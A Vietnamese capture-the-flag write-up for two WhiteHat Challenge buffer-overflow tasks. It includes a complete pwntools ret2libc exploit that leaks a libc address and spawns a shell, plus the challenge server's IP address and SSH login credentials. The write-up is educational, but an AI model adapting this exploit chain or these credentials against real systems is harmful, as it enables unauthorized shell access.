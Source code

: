 ```yaml
---
layout: post
title: WhiteHat Challenge 01 Pwn
---
```




BTC cho 2 bài pwn khá dễ nên điểm cũng thấp :sosad:

### Pwn 001: 

![pwn001](http://i.imgur.com/r5x7w2Y.png)

Đây chỉ là bài bof cơ bản (như cái tên bài). 

Kiểm tra file  trước ...

![checkpwn1](http://i.imgur.com/Qmk7AGd.png)

Bật NX này nọ. Elf 64-bit nữa. 

Vào gdb debug. Tính toán khoảng cách để control eip với tính offset mấy cái hàm ...

Gồm 2 stage. Ban đầu leak địa chỉ printf để tính libc base, sau đó quay về main và đưa payload call system("/bin/sh") vào.

Code :

```python
from pwn import *

# find rop gadget
pop_rdi=0x0000000000400623

printf=0x0000000000400450
printf_got=0x0000000000601018
mainn=0x40057d

#compute offset (ssh)
off_printf=0x0000000000054340 
off_system=0x0000000000046590 
str_binsh=0x000000000017C8C3

def main(args):
	if len(args)<2:
		r=remote("127.0.0.1",9999)
	else:
		s=ssh(host="103.237.99.35",user="pwn001",password="Pwn001")
		r=s.process("./SimpleBoF")
	
	#leak libc

	pl="A"*40 

	pl+=p64(pop_rdi)
	pl+=p64(printf_got)
	pl+=p64(printf)

	pl+=p64(mainn) # return main after leak printf
	raw_input("?")
	r.sendline(pl)

	leak=r.recv(1024)

	print leak.encode('hex')

	libc_printf=u64(leak[len(leak)-8:len(leak)])
	libc_printf>>=16

	log.info("Leak printf: " + hex(libc_printf))

	libcbase=libc_printf-off_printf
	system=libcbase+off_system
	binsh=libcbase+str_binsh

	log.info("system: " + hex(system))
	log.info("binsh: " + hex(binsh))

	#exploit !
	pl="A"*40
	pl+=p64(pop_rdi)
	pl+=p64(binsh)
	pl+=p64(system)
	r.sendline(pl)

	r.interactive()

if __name__=="__main__":
	main(sys.argv)
	sys.exit(0)

```



![donepwn1](http://i.imgur.com/A6SidH2.png)



### Pwn002 

![pwn002](http://i.imgur.com/xQe7G11.png)

Cũng là bof mà ez hơn.

Kiểm tra file rồi quăng vào IDA. Để ctrinh strcpy argv của mình thì vào hàm check_argv.

![check_argv](http://i.imgur.com/Prq9xgx.png)

Nếu độ dài bằng 17 thì return 1 => cho phép copy. Và cũng vừa đủ để chạy hàm tiếp theo.

Ngoài ra ta còn thấy có sẵn hàm system. Xem thử thì thấy có func này ...

![stors](http://i.imgur.com/QMiF31k.png)

Rồi. pwn thôi.

![donepwn2](http://i.imgur.com/qjZWT4z.png)

